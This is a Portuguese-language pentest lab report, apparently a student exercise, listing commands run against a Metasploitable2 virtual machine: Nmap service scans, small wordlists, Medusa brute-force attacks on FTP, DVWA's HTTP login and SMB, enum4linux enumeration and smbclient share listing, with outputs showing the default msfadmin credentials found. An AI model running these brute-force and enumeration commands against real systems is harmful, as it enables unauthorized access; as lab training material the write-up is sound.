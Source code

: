 # Relatório de Comandos Utilizados - Pentest Metasploitable2

## 1. Verificar o IP da máquina Metasploitable2-Linux
**Comando:**
```bash
ip a
```
**Saída relevante:**
```
inet 192.168.56.101/24 brd 192.168.56.255 scope global eth0
```

---

## 2. Testar conectividade via ping
**Comando:**
```bash
ping -c 3 192.168.56.101
```
**Descrição:** Verifica se a máquina Metasploitable2 está acessível pela rede.

---

## 3. Verificar serviços e versões com Nmap
**Comando:**
```bash
nMap -sV -p 21,22,80,445,139 192.168.56.101
```
**Descrição:** Escaneia as portas especificadas e identifica os serviços e suas versões.

---

## 4. Testar acesso ao FTP
**Comando:**
```bash
ftp 192.168.56.101
```
**Descrição:** Tenta conectar ao serviço FTP da máquina alvo.

---

## 5. Criar lista de usuários
**Comando:**
```bash
echo -e 'user\nmsfadmin\nadmin\nroot' > users.txt
```
**Descrição:** Gera um arquivo com possíveis nomes de usuários para força bruta.

---

## 6. Criar lista de senhas
**Comando:**
```bash
echo -e '123456\npassword\nqwerty\nmsfadmin' > pass.txt
```
**Descrição:** Gera um arquivo com senhas comuns para testes de autenticação.

---

## 7. Ataque de força bruta no FTP com Medusa
**Comando:**
```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
```
**Resultado:**
```
ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]
```

---

## 8. Acessar aplicação DVWA via navegador
**URL:**
```
http://192.168.56.101/dvwa/login.php
```

---

## 9. Ataque de força bruta HTTP na DVWA
**Comando:**
```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http -m PAGE:'/dvwa/login.php' -m FORM:'username=^USER^&password=^PASS^&Login=Login' -m 'FAIL=Login failed' -t 6
```

---

## 10. Enumeração SMB com Enum4Linux
**Comando:**
```bash
enum4linux -a 192.168.56.101 | tee enum4_output.txt
```
**Descrição:** Coleta informações sobre usuários, grupos e compartilhamentos via SMB.

---

## 11. Visualizar saída da enumeração
**Comando:**
```bash
less enum4_output.txt
```

---

## 12. Criar lista de usuários SMB
**Comando:**
```bash
echo -e 'user\nmsfadmin\nservice' > smb_users.txt
```

---

## 13. Criar lista de senhas SMB
**Comando:**
```bash
echo -e 'password\n123456\nWelcome123\nmsfadmin' > senhas_spray.txt
```

---

## 14. Ataque de força bruta SMB com Medusa
**Comando:**
```bash
medusa -h 192.168.56.101 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```
**Resultado:**
```
ACCOUNT FOUND: [smbnt] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
```

---

## 15. Listar compartilhamentos SMB
**Comando:**
```bash
smbclient -L //192.168.56.101 -U msfadmin
```

---
